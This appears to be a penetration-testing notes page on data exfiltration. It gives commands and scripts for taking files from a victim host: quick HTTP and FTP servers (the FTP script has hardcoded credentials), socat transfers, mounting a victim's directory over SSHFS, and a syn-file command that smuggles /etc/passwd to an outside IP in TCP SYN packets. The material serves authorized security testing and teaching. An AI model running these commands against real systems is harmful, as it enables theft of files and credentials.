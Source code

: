 # Data Exfiltration

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.‌
{% endhint %}

{% hint style="danger" %}
Not much here yet...please feel free to contribute at [my GitHub page](https://github.com/zweilosec/Infosec-Notes).
{% endhint %}

## Simple HTTP Servers

```
python2 -m SimpleHTTPServer $port
python3 -m http.server $port
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
```

## Python HTTP server

TODO: add --help to python file sharing scripts (issue [#14](https://github.com/zweilosec/Infosec-Notes/issues/14))

* Add argument parsing capability
* add `--help` argument for getting usage description
* add arguments for all user input variables
* FTP Server script has hardcoded values that need to be replaceable

Script for listing and sharing files in a folder. Uses python3's `http.server` module.

```bash
#!/bin/bash

#Makes different colored text
GN="\e[32m"
RES="\e[0m"
CYAN="\e[1;36m"

#font=Big http://www.patorjk.com/software/taag/
echo -e "\n$CYAN""
  _____       _   _                   ______ _ _       _____                          
 |  __ \     | | | |                 |  ____(_) |     / ____|                         
 | |__) |   _| |_| |__   ___  _ __   | |__   _| | ___| (___   ___ _ ____   _____ _ __ 
 |  ___/ | | | __| '_ \ / _ \| '_ \  |  __| | | |/ _ \\___ \ / _ \ '__\ \ / / _ \ '__|
 | |   | |_| | |_| | | | (_) | | | | | |    | | |  __/____) |  __/ |   \ V /  __/ |   
 |_|    \__, |\__|_| |_|\___/|_| |_| |_|    |_|_|\___|_____/ \___|_|    \_/ \___|_|   
         __/ |                                                                        
        |___/                                                                         
$RES"
echo -e "Created By$GN Ac1d $RES\n"
echo -e "Updated by$CYAN zweilos $RES\n"

#list IPs associated with current hostname
HN="hostname -I"
#put the IPs into a list
res=$(eval $HN)
arrIN=(${res// / })
IP=""

#if there is more than one IP available, list the first two as options
#TODO: make a way to list all options
if [ ${#arrIN[@]} -gt 1 ]; then
        PS3='Which IP address?: '
        options=("${arrIN[0]}" "${arrIN[1]}" "Quit")
        select opt in "${options[@]}"
        do
        case $opt in
                "${arrIN[0]}")
                        IP="${arrIN[0]}"
                        break
                ;;

                "${arrIN[1]}")
                        IP="${arrIN[1]}"
                        break
                ;;
                "Quit")
                break
                ;;
                *) echo "Invalid option: $REPLY";;
        esac
        done
else
       IP=$arrIN

fi
echo ""
echo "IP: "$IP
echo ""
echo -e "File links...\n"
for entry in `ls`;do
        if  [  ! -d $entry  ];then
                wgetCmd=$(echo "wget http://${IP##*( )}:8099/$entry" | xargs)
                echo -e "\t$GN$wgetCmd$RES"
        fi
done
echo ""
echo -e "\nCurrent Directory Contents"
ls --color .
echo ""
echo -e "\nStarting Server"

python3 -m http.server 8099  -d .
```

## Python FTP server

```bash
#!/usr/bin/env python3


##Author : Paranoid Ninja
#Modified: Zweilos
##Descr  : Creates a Simple FTP Server in the tmp directory

from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer

FTP_PORT = 2121
FTP_USER = "ninja"
FTP_PASSWORD = "ninja"
FTP_DIRECTORY = "."


def main():
    dir = input("Run in the current directory? [y/n]\n")
    if (dir != "y") or (dir != "Y"):
        FTP_DIRECTORY = input("Please enter a directory:")

    authorizer = DummyAuthorizer()
    authorizer.add_user(FTP_USER, FTP_PASSWORD, FTP_DIRECTORY, perm='elradfmw')

    handler = FTPHandler
    handler.authorizer = authorizer
    handler.banner = "Ninja FTP Server"

    address = ('', FTP_PORT)
    server = FTPServer(address, handler)

    server.max_cons = 256
    server.max_cons_per_ip = 5

    server.serve_forever()


if __name__ == '__main__':
    main()
```

## Socat

```bash
#to attacker
sudo socat TCP4-LISTEN:$port:fork file:$file_name
#from victim
socat TCP4:$IP:$port file:$filename,create
```

`sudo` is necessary if the port is under 1024. `fork` allows for multiple connections.

## SSHFS

If the victim has SSH, the attacker can mount a directory from the victim to the attacker.

```bash
sudo apt install sshfs
sudo mkdir /mnt/sshfs
sudo sshfs -o allow_other,default_permissions <Target username>@<Target IP address>:<Full path to folder>/ /mnt/sshfs/
```

## Data exfiltration using TCP SYN <a href="#h-data-exfiltration-using-tcp-syn" id="h-data-exfiltration-using-tcp-syn"></a>

We can use TCP SYN sequence number packets to exfiltrate data using the `syn-file` tool.

```bash
./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 -m 00:0C:0A:4a:3b:5ch
```

* [https://github.com/defensahacker/syn-file](https://github.com/defensahacker/syn-file)

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

